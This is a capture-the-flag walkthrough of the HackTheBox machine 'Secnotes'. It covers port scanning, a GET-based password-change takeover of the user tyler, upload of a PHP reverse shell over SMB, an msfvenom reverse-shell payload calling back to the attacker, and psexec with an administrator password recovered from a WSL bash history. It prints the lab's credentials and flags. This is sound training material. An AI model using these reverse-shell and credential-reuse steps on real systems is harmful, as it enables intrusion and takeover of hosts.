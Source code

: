 ```yaml
---
title: "Secnotes"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Secnotes

![](assets/Pasted%20image%2020250518205226.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.97
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 20:52 CEST
Nmap scan report for 10.10.10.97
Host is up (0.041s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2025-05-18T11:53:40-07:00
| smb2-time: 
|   date: 2025-05-18T18:53:41
|_  start_date: N/A
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h20m00s, deviation: 4h02m29s, median: 0s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   40.63 ms 10.10.14.1
2   41.14 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.61 seconds
```

`Port` `8808` shows the default `IIS` site and `port` `80` shows a login form.

![](assets/Pasted%20image%2020250518205616.png)

Create an account and log in.

![](assets/Pasted%20image%2020250518205947.png)

There is a user named `tyler` that we can contact, and there is no protection against `XSS` when creating a note.

When changing the password, the request is also processed with `GET`, so we could send the request to change the password in the contact text with an `XSS`.

![](assets/Pasted%20image%2020250518235204.png)

`XSS` is not needed, only send the URL and enter as `tyler` with the new password.

![](assets/Pasted%20image%2020250518235302.png)

`tyler:92g!mA8BGjOirkL%OG*&`

Checking credentials and shares, we see that the user can write in a share.

![](assets/Pasted%20image%2020250518235608.png)

## Initial Access

This is the root folder for `IIS`, so we can upload an `aspx`, `asp`, `config`, or `php` reverse shell.

Get a `PHP` rev shell and put it in the folder, start the listener, and browse the page.


```shell
$ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //secnotes.htb/new-site
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (70.3 kb/s) (average 70.3 kb/s)
```


```shell
$ sudo rlwrap nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.97] 49913
SOCKET: Shell has connected! PID: 4448
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
iis apppool\newsite
```

The shell was unstable, so I put a web shell to get an `msfvenom` reverse shell.

![](assets/Pasted%20image%2020250519002132.png)

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=80 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe

smb: \> put reverse.exe
putting file reverse.exe as \reverse.exe (56.0 kb/s) (average 29.5 kb/s)
```


![](assets/Pasted%20image%2020250519002346.png)

```shell
$ sudo rlwrap nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.97] 50262
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```

Get the flag:

```shell
C:\Users\tyler\Desktop>type user.txt
type user.txt
3e39543df04f653c45220f80fed60766
```

## Privilege Escalation

Transfer `winPEAS` and find that `WSL` and `Ubuntu` are installed.

![](assets/Pasted%20image%2020250519005409.png)

Go to the root folder of the distro and search `root`'s history.

```shell
PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root> type .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exit
```

![](assets/Pasted%20image%2020250519010931.png)

```shell
$ impacket-psexec administrator:'u6!4ZwgwOM#^OBf#Nwnh'@secnotes.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on secnotes.htb.....
[*] Found writable share ADMIN$
[*] Uploading file JstWrSBE.exe
[*] Opening SVCManager on secnotes.htb.....
[*] Creating service ldar on secnotes.htb.....
[*] Starting service ldar.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```

## Post Exploitation

Get the flag:

```shell
C:\Users\Administrator\Desktop> type root.txt
13193dc2dd40a8c4f431cb347f764f2c
```
